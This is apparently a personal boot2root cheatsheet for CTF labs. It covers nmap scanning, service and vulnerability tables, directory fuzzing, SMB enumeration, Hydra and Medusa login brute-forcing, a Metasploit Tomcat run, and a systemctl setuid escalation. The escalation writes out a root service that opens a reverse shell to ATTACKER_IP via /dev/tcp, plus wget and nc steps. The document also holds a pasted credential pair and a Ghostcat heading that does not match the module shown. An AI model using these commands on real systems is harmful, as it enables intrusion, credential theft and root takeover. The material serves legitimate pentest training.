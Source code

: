 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>



<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>

## Privilege Escalation

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


